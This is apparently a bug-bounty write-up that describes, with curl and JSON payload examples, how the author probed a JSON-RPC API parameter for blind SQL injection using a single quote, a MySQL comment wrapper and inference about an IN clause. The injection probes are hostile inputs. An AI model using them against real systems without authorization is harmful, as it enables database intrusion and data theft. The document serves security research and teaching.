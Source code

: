 # Making a Blind SQL Injection a Little Less Blind

Someone told me the other day that “no-one does SQL Injection by hand any more”. I want to tell you about a SQL Injection bug that I found and exploited manually.

*Disclaimer: for the most part, I’m going to take you down the ‘happy path’ here. There were many more dead-ends, far more frustration, and much more head scratching in the discovery and exploitation of this bug than any of this would imply. I’d hate for all of that to get in the way of a good story though, so anyway…*

I was looking at a JSON-RPC API on a target (a target with a bug bounty program; I’m a good boy, I am), when I spotted a telltale sign of a problem: a single quote in the parameter would throw an error:

```
tom@bash:~▶ cat payload.json 
{
    "jsonrpc": "2.0",
    "method": "getWidgets",
    "params": ["2'"]
}
tom@bash:~▶ curl -s $APIURL -d @payload.json
// ERRORS! ERRORS EVERYWHERE!
```

But with the quote wrapped in a MySQL comment, there was no error:

```
tom@bash:~▶ cat payload.json 
{
    "jsonrpc": "2.0",
    "method": "getWidgets",
    "params": ["2/*'*/"]
}
tom@bash:~▶ curl -s $APIURL -d @payload.json
// No errors; just results :)
```

(I’m redacting the method name here to avoid disclosing the name of the target).

After a little messing around trying to inject aUNION (and failing), and trying a few different characters, I eventually figured out my payload was probably being put inside an IN (...) clause. Strong evidence for that was that if I passed in just a 2, each of the assets in the returned data structure had a `type_id` of 2:

```
tom@bash:~▶ cat payload.json
{
    "jsonrpc": "2.0",
    "method": "getWidgets",
    "params": ["2"]
}
tom@bash:~▶ curl -s $APIURL -d @payload.json | gron | grep type_id
json.result.data.widget[5].assets[0].type_id = 2;
json.result.data.widget[5].assets[1].type_id = 2;
json.result.data.widget[5].assets[2].type_id = 2;
```

